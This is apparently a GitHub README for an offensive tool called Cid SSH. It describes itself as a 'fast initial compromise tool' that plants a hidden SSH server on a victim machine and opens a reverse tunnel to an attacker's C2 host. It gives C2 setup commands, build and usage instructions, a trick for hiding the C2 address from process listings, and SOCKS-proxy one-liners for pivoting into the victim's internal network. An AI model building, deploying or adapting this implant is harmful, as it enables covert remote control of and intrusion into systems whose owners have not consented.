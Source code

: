 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.


## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous # change /bin/false to /path/to/Cid-Controller to use Cid-Controller
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes
ClientAliveInterval 120
ClientAliveCountMax 3

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases/tag/v1.0). They are ready to roll.

If you want to compile from source keep reading below.

## Compilation

### Compilation on Windows
You can use the `CMakeLists.txt` along with `CMake` to create a Visual Studio project.

To easy things installing dependencies you can use `vcpkg`:
```
# Install dependencies with vcpkg (static)
git clone https://github.com/Microsoft/vcpkg.git
cd vcpkg
bootstrap-vcpkg.bat
vcpkg install --triplet x64-windows-static boost-beast boost-asio boost-system libssh[core,openssl]

git submodule update --init --recursive
# Configure and compile project
cd Cid-SSH
cmake -S . -B build_ssh -G "Visual Studio 16 2019" -A x64 -DWITH_WEBSOCKETS=OFF -DCMAKE_TOOLCHAIN_FILE=C:/Users/alberto.garcia/Documents/code/vcpkg/scripts/buildsystems/vcpkg.cmake -DVCPKG_TARGET_TRIPLET=x64-windows-static ..
cmake --build_ssh . --config Release
cmake -S . -B build_wss -G "Visual Studio 16 2019" -A x64 -DWITH_WEBSOCKETS=ON -DCMAKE_TOOLCHAIN_FILE=C:/Users/alberto.garcia/Documents/code/vcpkg/scripts/buildsystems/vcpkg.cmake -DVCPKG_TARGET_TRIPLET=x64-windows-static ..
cmake --build_wss . --config Release
```


### Compilation on Linux
CidSSH is compiled statically for linux using musl (a replacement for libc) from an Alpine distribution `x86_64`. 

There is a `build.sh` command that can be used to build everything. Just do `sh build.sh` from an Alpine system or docker container.
```
sudo docker pull alpine:edge
sudo docker run --rm -v Cid-SSH:/Cid-SSH --name alpine -t -i alpine:edge /bin/bash
cd /Cid-SSH
sh build.sh
```

### Compilation on MacOs
There is a `build.sh` command that can be used to build everything. Just do `sh build.sh`

## Using it

Defaults: user is `anonymous` and default `LOCAL_SSH_SERVER_PORT` is 2222

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname [LOCAL_SSH_SERVER_PORT]`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135
Cid-SSH.exe -t 3232239495
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

In the C2:
```
sudo netstat -ptan | grep sshd | grep LISTEN | grep anon
# Get the port number, replace the XXXXX 
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p XXXXX -oStrictHostKeyChecking=no -D 0.0.0.0:8888
# Extra: One-liner for two previous commands:
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p `sudo netstat -ptan | grep sshd | grep LISTEN | grep anon | cut -d : -f2 | cut -d" " -f1` -oStrictHostKeyChecking=no -D 0.0.0.0:8888
```
